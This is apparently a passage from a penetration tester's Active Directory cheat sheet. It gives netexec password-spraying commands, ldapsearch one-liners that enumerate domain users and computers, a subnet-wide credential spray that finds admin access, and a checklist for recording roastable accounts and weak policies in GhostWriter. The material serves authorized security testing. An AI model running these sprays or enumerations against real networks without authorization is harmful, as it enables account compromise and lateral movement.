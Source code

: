 ### Safe Spraying
```bash
# Try one password across all users (safer than brute force)
netexec smb DC_IP -u users.txt -p 'Welcome2024!' --continue-on-success
```

## Useful One-Liners

### Create User List from LDAP
```bash
ldapsearch -x -H ldap://DC_IP -D "USERNAME@DOMAIN" -w 'PASSWORD' -b "DC=domain,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d' ' -f2 | sort -u > users.txt
```

### Find Computers
```bash
ldapsearch -x -H ldap://DC_IP -D "USERNAME@DOMAIN" -w 'PASSWORD' -b "DC=domain,DC=local" "(objectClass=computer)" dNSHostName | grep dNSHostName | cut -d' ' -f2 | sort -u > computers.txt
```

### Check All Hosts for Admin Access
```bash
# Spray credentials across network
netexec smb 10.10.10.0/24 -u USERNAME -p 'PASSWORD' | grep -i "Pwn3d!"
```

## Document Everything!

**For GhostWriter, immediately document:**
- SMB signing status on DC
- AS-REP roastable users (with cracked passwords)
- Kerberoastable users (with cracked passwords)
- Shares with sensitive data
- Users with admin access to multiple systems
- Password policy weaknesses
- Any null session/anonymous access

**Remember:**
- Always check password policy before spraying
- Document misconfigurations immediately
- Low-priv domain user = keys to the kingdom (with enough enum)
